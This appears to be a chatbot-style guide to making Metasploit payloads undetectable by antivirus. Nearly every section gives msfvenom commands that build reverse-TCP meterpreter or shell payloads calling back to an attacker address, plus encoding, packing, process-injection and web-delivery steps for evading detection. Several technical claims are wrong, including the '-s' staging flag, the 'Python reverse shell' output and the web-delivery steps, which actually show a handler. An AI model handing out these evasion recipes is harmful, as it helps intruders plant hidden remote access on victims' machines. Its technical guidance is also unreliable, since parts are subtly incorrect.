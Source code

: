 Creating undetectable payloads is an important part of penetration testing and offensive security. The goal is to generate payloads that can evade detection by antivirus software or security mechanisms. However, please remember that this should only be done in ethical hacking scenarios, such as penetration testing with explicit permission or in a controlled environment.

Here are some strategies and techniques you can use to create undetectable payloads using Metasploit and other tools:

1. Obfuscate Payloads
Metasploit's msfvenom provides an option to encode or obfuscate the payload to make it harder for antivirus software to detect it. Obfuscation involves transforming the payload to a form that maintains its functionality but changes its signature.

Example: Using Encoding
bash
Copy code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe
-e: Specifies the encoder. x86/shikata_ga_nai is a polymorphic encoder that changes the payload each time it is encoded, making it harder to detect.
-f exe: Specifies the format of the output file (in this case, a Windows executable).
You can try multiple encoders:

bash
Copy code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 -e x86/jmp_call_additive -f exe > payload.exe

2. Use Custom Payloads
Instead of using the default, common payloads, create a custom payload or tweak an existing payload. Many antivirus software solutions use signature-based detection, so custom payloads are less likely to be detected.

You can create a custom payload using Metasploit:

bash
Copy code
msfvenom -p windows/shell_reverse_tcp LHOST=<Your-IP> LPORT=4444 -f python
This generates a Python reverse shell instead of a typical executable payload, which may bypass some antivirus solutions.

3. Use Polymorphic Shellcode
Polymorphic shellcode changes its appearance with each execution while retaining its functionality. Shikata Ga Nai (a Metasploit encoder) is commonly used for this purpose.

bash
Copy code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 -e x86/shikata_ga_nai -f exe -i 10 > payload.exe
-i 10: This option specifies the number of iterations to apply the encoding. More iterations increase the obfuscation level.

4. Use Metasploit’s Staging Payloads
Staged payloads are divided into smaller parts (stages). The first stage is a small, compact payload that downloads the second, larger stage. This makes it harder to detect because the initial payload is small and often appears less suspicious.

Example:

bash
Copy code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 -e x86/shikata_ga_nai -f exe -s -i 10 > payload.exe
-s: This option tells Metasploit to use a staged payload.
-i 10: Specifies the number of iterations for encoding.

5. Use Shellcode Injection
Another way to make a payload undetectable is by using shellcode injection. You can inject the payload into a process that is already running on the victim machine (e.g., a legitimate process like explorer.exe).

First, generate the shellcode:

bash
Copy code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 -f raw > shellcode.raw
Then inject this raw shellcode into a legitimate process using tools like Veil-Evasion or Shellter.

6. Use External Tools for Payload Generation
Some third-party tools offer advanced techniques for generating undetectable payloads:

Veil-Evasion: This tool is designed specifically to bypass AV detection by obfuscating payloads.

bash
Copy code
./Veil-Evasion.py
It allows you to create a variety of payloads and supports obfuscation techniques.

Shellter: A dynamic shellcode injector for Windows that can obfuscate payloads and inject them into running processes.

bash
Copy code
shellter -a -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444

7. Packers
Packing is a technique where the payload is compressed or encrypted and then decompressed at runtime. This can help evade antivirus scanners that rely on static signatures.

You can use tools like UPX (Ultimate Packer for eXecutables) to pack a payload:

First, create a payload using Metasploit:

bash
Copy code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=4444 -f exe > payload.exe
Then, pack the payload with UPX:

bash
Copy code
upx --best --ultra-brute payload.exe

8. Web Delivery (Bypass AV by Using Web Servers)
Another approach is using the Web Delivery module in Metasploit, which delivers the payload through a web server. This way, the payload is executed from a trusted source, making it harder for AV to detect.

To use Web Delivery:

Open Metasploit:

bash
Copy code
msfconsole
Use the Web Delivery module:

bash
Copy code
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Your-IP>
set LPORT 4444
run
You can also use a php, html, or asp payload via the multi/handler module.

9. Test and Evasion
After creating the payload, always test it in an isolated environment to verify if it's still undetectable. Use tools like:

VirusTotal: Upload your payload to VirusTotal to check if it's detected by multiple antivirus engines.
Cuckoo Sandbox: A malware analysis sandbox to test how your payload behaves in a virtualized environment.
Conclusion
Creating undetectable payloads involves various techniques like encoding, obfuscation, and the use of custom payloads. Always remember to perform penetration testing in an ethical manner, with explicit permission from the target organization, and follow local laws and regulations.